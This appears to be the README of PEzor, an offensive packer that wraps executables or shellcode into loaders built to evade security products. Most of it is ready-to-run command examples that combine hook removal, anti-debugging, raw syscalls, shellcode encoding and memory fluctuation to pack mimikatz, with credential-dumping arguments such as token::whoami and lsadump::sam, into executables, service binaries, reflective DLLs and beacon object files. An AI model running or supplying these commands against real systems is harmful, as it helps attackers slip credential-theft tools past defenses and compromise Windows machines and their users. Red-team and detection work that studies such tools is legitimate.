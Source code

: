 PEzor
=====

Read the blog posts here:

- [https://iwantmore.pizza/posts/PEzor.html](https://iwantmore.pizza/posts/PEzor.html)
- [https://iwantmore.pizza/posts/PEzor2.html](https://iwantmore.pizza/posts/PEzor2.html)
- [https://iwantmore.pizza/posts/PEzor3.html](https://iwantmore.pizza/posts/PEzor3.html)
- [https://iwantmore.pizza/posts/PEzor4.html](https://iwantmore.pizza/posts/PEzor4.html)

```raw
 ________________
< PEzor!! v3.1.2 >
 ----------------
      \                    / \  //\
       \    |\___/|      /   \//  \\
            /0  0  \__  /    //  | \ \
           /     /  \/_/    //   |  \  \
           @_^_@'/   \/_   //    |   \   \
           //_^_/     \/_ //     |    \    \
        ( //) |        \///      |     \     \
      ( / /) _|_ /   )  //       |      \     _\
    ( // /) '/,_ _ _/  ( ; -.    |    _ _\.-~        .-~~~^-.
  (( / / )) ,-{        _      `-.|.-~-.           .~         `.
 (( // / ))  '/\      /                 ~-. _ .-~      .-~^-.  \
 (( /// ))      `.   {            }                   /      \  \
  (( / ))     .----~-.\        \-'                 .~         \  `. \^-.
             ///.----..>        \             _ -~             `.  ^-`  ^-_
               ///-._ _ _ _ _ _ _}^ - - - - ~                     ~-- ,.-~
                                                                  /.-~
---------------------------------------------------------------------------
```

<!-- toc -->
* [Installation](#installation)
* [Usage](#usage)
<!-- tocstop -->

<!-- install -->
# Installation
The `install.sh` is designed to work on a Kali Linux distro.
```sh-session
$ git clone https://github.com/phra/PEzor.git
$ cd PEzor
$ sudo bash install.sh
$ bash PEzor.sh -h
```

# Upgrading from v2.x.x

The `PATH` variable has to be updated to use a specific commit of [Donut](https://github.com/TheWover/donut)! Check the updated `install.sh` script.

<!-- installstop -->

<!-- usage -->
# Usage
* [`PEzor -h`](#PEzor-help)
* [`PEzor <EXECUTABLE> [donut args...]`](#PEzor-executable)
* [`PEzor <SHELLCODE>`](#PEzor-shellcode)
<!-- usagestop -->

<!-- pezor-help -->
## `PEzor help`

display help for PEzor

```
USAGE
  $ PEzor help
```
<!-- pezor-helpstop -->

<!-- pezor-executable -->
## `PEzor <EXECUTABLE>`

Pack the provided executable into a new one

```
OPTIONS
  -h                        Show usage and exits
  -32                       Force 32-bit executable
  -64                       Force 64-bit executable
  -debug                    Generate a debug build
  -unhook                   User-land hooks removal
  -antidebug                Add anti-debug checks
  -syscalls                 Use raw syscalls [64-bit only] [Windows 10 only]
  -sgn                      Encode the generated shellcode with sgn
  -text                     Store shellcode in .text section instead of .data
  -rx                       Allocate RX memory for shellcode
  -self                     Execute the shellcode in the same thread
  -sdk=VERSION              Use specified .NET Framework version (2, 4, 4.5 (default))
  -cleanup                  Perform the cleanup of allocated payload and loaded modules (only for BOFs)
  -sleep=N                  Sleeps for N seconds before unpacking the shellcode
  -format=FORMAT            Outputs result in specified FORMAT (exe, dll, reflective-dll, service-exe, service-dll, dotnet, dotnet-createsection, dotnet-pinvoke)
  -fluctuate=PROTECTION     Fluctuate memory region to PROTECTION (RW or NA) by hooking Sleep()
  [donut args...]           After the executable to pack, you can pass additional Donut args, such as -z 2

EXAMPLES
  # 64-bit (self-inject RWX)
  $ PEzor.sh -unhook -antidebug -text -self -sleep=120 mimikatz/x64/mimikatz.exe -z 2
  # 64-bit (self-inject RX)
  $ PEzor.sh -unhook -antidebug -text -self -rx -sleep=120 mimikatz/x64/mimikatz.exe -z 2
  # 64-bit (raw syscalls)
  $ PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=120 mimikatz/x64/mimikatz.exe -z 2
  # 64-bit (fluctuate to READWRITE when sleeping)
  $ PEzor.sh -fluctuate=RW -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p '"coffee" "sleep 5000" "coffee" "exit"'
  # 64-bit (fluctuate to NOACCESS when sleeping)
  $ PEzor.sh -fluctuate=NA -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p '"coffee" "sleep 5000" "coffee" "exit"'
  # 64-bit (beacon object file)
  $ PEzor.sh -format=bof mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (beacon object file w/ cleanup)
  $ PEzor.sh -format=bof -cleanup mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (reflective dll)
  $ PEzor.sh -format=reflective-dll mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (service exe)
  $ PEzor.sh -format=service-exe mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (service dll)
  $ PEzor.sh -format=service-dll mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (dotnet)
  $ PEzor.sh -format=dotnet -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (dotnet-pinvoke)
  $ PEzor.sh -format=dotnet-pinvoke -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 64-bit (dotnet-createsection)
  $ PEzor.sh -format=dotnet-createsection -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p '"log c:\users\public\mimi.out" "token::whoami" "exit"'
  # 32-bit (self-inject)
  $ PEzor.sh -unhook -antidebug -text -self -sleep=120 mimikatz/Win32/mimikatz.exe -z 2
  # 32-bit (Win32 API: VirtualAlloc/WriteMemoryProcess/CreateRemoteThread)
  $ PEzor.sh -sgn -unhook -antidebug -text -sleep=120 mimikatz/Win32/mimikatz.exe -z 2
  # 32-bit (Win32 API: VirtualAlloc/WriteMemoryProcess/CreateRemoteThread) and arguments for donut
  $ PEzor.sh -sgn -unhook -antidebug -text -sleep=120 mimikatz/Win32/mimikatz.exe -z 2 "-plsadump::sam /system:SystemBkup.hiv /sam:SamBkup.hiv"
```
<!-- pezor-executablestop -->

<!-- pezor-shellcode -->
## `PEzor <SHELLCODE>`

Pack the provided shellcode into an executable

```
USAGE
  $ PEzor <-32|-64> [options...] <SHELLCODE>

OPTIONS
  -h                        Show usage and exits
  -32                       Force 32-bit executable
  -64                       Force 64-bit executable
  -debug                    Generate a debug build
  -unhook                   User-land hooks removal
  -antidebug                Add anti-debug checks
  -shellcode                Force shellcode detection
  -syscalls                 Use raw syscalls [64-bit only] [Windows 10 only]
  -sgn                      Encode the provided shellcode with sgn
  -text                     Store shellcode in .text section instead of .data
  -rx                       Allocate RX memory for shellcode
  -self                     Execute the shellcode in the same thread [requires RX shellcode, not compatible with -sgn]
  -cleanup                  Perform the cleanup of allocated payload and loaded modules (only for BOFs)
  -sleep=N                  Sleeps for N seconds before unpacking the shellcode
  -format=FORMAT            Outputs result in specified FORMAT (exe, dll, reflective-dll, service-exe, service-dll, dotnet, dotnet-createsection, dotnet-pinvoke)
  -fluctuate=PROTECTION     Fluctuate memory region to PROTECTION (RW or NA) by hooking Sleep()

EXAMPLES
  # 64-bit (self-inject RWX)
  $ PEzor.sh shellcode.bin
  # 64-bit (self-inject RX)
  $ PEzor.sh -unhook -antidebug -text -self -rx -sleep=120 shellcode.bin
  # 64-bit (self-inject)
  $ PEzor.sh -unhook -antidebug -text -self -sleep=120 shellcode.bin
  # 64-bit (raw syscalls)
  $ PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=120 shellcode.bin
  # 64-bit (fluctuate to READWRITE when sleeping)
  $ PEzor.sh -fluctuate=RW shellcode.bin
  # 64-bit (fluctuate to NOACCESS when sleeping)
  $ PEzor.sh -fluctuate=NA shellcode.bin
  # 64-bit (beacon object file)
  $ PEzor.sh -format=bof shellcode.bin
  # 64-bit (beacon object file w/ cleanup)
  $ PEzor.sh -format=bof -cleanup shellcode.bin
  # 64-bit (reflective dll)
  $ PEzor.sh -format=reflective-dll shellcode.bin
  # 64-bit (service exe)
  $ PEzor.sh -format=service-exe shellcode.bin
  # 64-bit (service dll)
  $ PEzor.sh -format=service-dll shellcode.bin
  # 64-bit (dotnet)
  $ PEzor.sh -format=dotnet shellcode.bin
  # 64-bit (dotnet-pinvoke)
  $ PEzor.sh -format=dotnet-pinvoke shellcode.bin
  # 64-bit (dotnet-createsection)
  $ PEzor.sh -format=dotnet-createsection shellcode.bin
  # 32-bit (self-inject)
  $ PEzor.sh -unhook -antidebug -text -self -sleep=120 shellcode.bin
  # 32-bit (Win32 API: VirtualAlloc/WriteMemoryProcess/CreateRemoteThread)
  $ PEzor.sh -sgn -unhook -antidebug -text -sleep=120 shellcode.bin
```

_See code: [PEzor.sh](https://github.com/phra/PEzor/blob/master/PEzor.sh)_
<!-- pezor-shellcodestop -->
